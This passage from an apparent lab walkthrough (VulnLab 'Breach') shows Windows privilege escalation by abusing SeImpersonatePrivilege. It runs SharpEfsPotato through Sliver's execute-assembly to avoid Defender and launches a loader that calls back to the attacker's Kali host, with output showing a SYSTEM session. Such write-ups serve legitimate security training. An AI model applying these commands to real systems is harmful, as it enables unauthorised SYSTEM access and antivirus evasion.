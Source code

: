 Now that we have code execution as `svc_mssql` on the remote system, we can look around to see if their are any binaries or privileges that we can exploit.

Luckily enough, this should not be very difficult as we already contain a privilege that we exploited previously to impersonate Administrator on the MSSQL service. We can use this same privilege to impersonate SYSTEM on the local machine.

Before we do this though, I want to detail why this exploit specifically works with a service account that has SeImpersonatePrivilege. Service accounts, by default, will have this privilege along with SeAssignPrimaryTokenPrivilege. Having SeImpersonatePrivilege essentially allows our service account to impersonate a user or specified user to perform actions on behalf of that user.

![](/images/vulnlab/breach-vl/e.png)

Exploiting this is relatively simple, as we can impersonate SYSTEM and authenticate to an evil named pipe that we create. We can direct this named pipe to a binary to execute, which will run in the context of SYSTEM.

In the past and up until now, the easiest way was to utilize the Potato Family of exploits to impersonate and spawn this named pipe. As of today, most of the Potato family has been detected by Defender which renders most of the executables unusable with traditional means.

Luckily enough since we currently have a session through an obfuscated payload that isn't detected by Defender, we can execute these binaries through a .NET assembly that shouldn't allow them to be detected from Defender's behavioral detection. I tested this out with two different exploits in the Potato family, notably [SweetPotato](https://github.com/CCob/SweetPotato) and [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato).

You'll need to compile both of these executables in Visual Studio on a Windows host before using it with Sliver.

```
└─$ ls | grep Potato
SharpEfsPotato.exe
SweetPotato.exe
```

Now that we have either one of these executables, we can use Sliver's built-in `execute-assembly` command to execute these binaries through a .NET assembly. This prevents us from needing to drop the binaries locally on the compromised machine.

I've provided the arguments that you'll need in order to execute either one of these exploits. Both will land you a new session as SYSTEM if exploited correctly. Remember to ensure that you still have your simple Python HTTP server running since the arguments passed into either exploit will be executing our loader from before.

The first that I'll show is using SharpEfsPotato to exploit this.

```
sliver (breach) > execute-assembly SharpEfsPotato.exe '-p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "C:\temp\dazzad.exe (KALI IP) 9001 cipher.bin key.bin"'

[*] Output:
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/e5b2e9a2-d802-4d36-aeab-2e0e4482647b/\e5b2e9a2-d802-4d36-aeab-2e0e4482647b\e5b2e9a2-d802-4d36-aeab-2e0e4482647b
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

[*] Session b4eedc0a breach - 10.10.112.238:63780 (BREACHDC) - windows/amd64 - Sat, 29 Jun 2024 00:20:05 EDT
```